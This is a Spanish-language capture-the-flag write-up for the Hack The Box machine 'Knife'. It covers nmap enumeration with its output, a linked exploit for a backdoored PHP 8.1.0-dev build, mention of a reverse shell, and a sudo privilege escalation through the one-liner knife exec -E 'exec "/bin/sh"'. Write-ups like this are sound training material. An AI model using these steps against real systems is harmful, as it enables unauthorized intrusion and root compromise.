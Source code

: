 ```yaml
---
title: "HTB - Knife"
author: "Oscar Bravo"
header: 
  teaser: "/assets/images/post/2021/knife.png"
categories:
  - WriteUp
---
```



OS | LINUX
Desarrollado por | MrKN16H7
Dificultad | Fácil
Liberación | 22 Mayo 2021
Puntos | 20

## Enumeración

Al usar nmap utilizando nmap -p- –open -T5 -v -n 10.10.10.242 y luego con el comando nmap -sCV -p22,80 10.10.10.242 (si quieren guardar el nmap usar -oN <NOMBRE ARCHIVO>) , solo encontramos que está abierto el puerto 22 (SSH) y 80 (web).

```
# Nmap 7.92 scan initiated Mon Nov  1 23:48:04 2021 as: nmap -p22,80 -sCV -O -oN NMAP knife.htb
Nmap scan report for knife.htb (10.10.10.242)
Host is up (0.14s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), Linux 5.3 - 5.4 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov  1 23:48:22 2021 -- 1 IP address (1 host up) scanned in 17.24 seconds
```

Debido a esto se empieza a busca información con whatweb, en el código fuente de la página web, mientras se ejecuta la wfuzz para buscar paginas ocultas y poder acceder a ellas.

Con el código fuente de la pagina y wfuzz no encontramos nada en particular, pero WhatWeb nos dice que la pagina está escrita en 8.1.0-dev e investigando nos damos cuenta que hay un exploit (backdoor y rce) en el github de [https://github.com/flast101/php-8.1.0-dev-backdoor-rce](https://github.com/flast101/php-8.1.0-dev-backdoor-rce){:target="_blank"}

Utilizamos este exploit y obtenermos acceso al usuario

## 1° Shell

Al entrar con el Exploit nos damos cuenta que tenemos una terminal muy básica y no podemos tratar la TTY por lo que primero abrimos una shell reverse y luego realizamos un tratamiento de TTY ([](https://gist.github.com/s4vitar/b88fefd5d9fbbdcc5f30729f7e06826e#tratamiento-de-la-tty){:target="_blank"}) así podemos obtener la primera flag.

## 2° SHELL (root)

Ya dentro del usuario james vemos si tiene algún permiso como root con el comando sudo -l y nos damos cuenta que tiene con el comando knife y este no necesita escribir la password.

	sudo -l
	Matching Defaults entries for james on knife:
		env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User james may run the following commands on knife:
		(root) NOPASSWD: /usr/bin/knife

Con esto vemos en GTFObins si hay algún script de escalamiento de privilegios y vemos que si lo hay, lo que nos permite obtener root y poder ver la 2° flag

	$ knife exec -E 'exec "/bin/sh"'
	# whoami
	root

![Racso](https://www.hackthebox.com/badge/image/159593)